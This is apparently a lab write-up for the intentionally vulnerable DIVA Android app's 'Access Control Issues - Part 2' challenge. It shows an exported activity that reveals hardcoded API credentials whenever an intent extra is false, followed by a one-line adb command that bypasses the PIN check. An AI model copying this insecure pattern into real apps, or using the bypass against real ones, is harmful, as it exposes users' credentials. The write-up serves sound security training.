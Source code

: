 ## Access Control Issues - Part 2

Codice Vulnerabile:

> app/src/main/AndroidManifest.xml

```
<activity
    android:name=".AccessControl2Activity"
    android:label="@string/d10" >
</activity>
<activity
    android:name=".APICreds2Activity"
    android:label="@string/apic2_label" >
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS2" />

        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

> app/src/main/java/jakhar/aseem/diva/APICreds2Activity.java

```
boolean bcheck = i.getBooleanExtra(getString(R.string.chk_pin), true);

if (bcheck == false) {
	// Connect to vendor cloud and send User PIN
	// Get API credentials and other confidential details of the user
	String apidetails = "TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2";
	// Display the details on the app
	apicview.setText(apidetails);
}
else {
	apicview.setText("Register yourself at http://payatu.com to get your PIN and then login with that PIN!");
	pintext.setVisibility(View.VISIBLE);
	vbutton.setVisibility(View.VISIBLE);
}
```

> app/src/main/res/values/strings.xml

```
<string name="chk_pin">check_pin</string>
```

Exploit:

- `$ adb shell`

- `# am start -n jakhar.aseem.diva/.APICreds2Activity -a jakhar.aseem.diva.action.VIEW_CREDS2 --ez check_pin false`
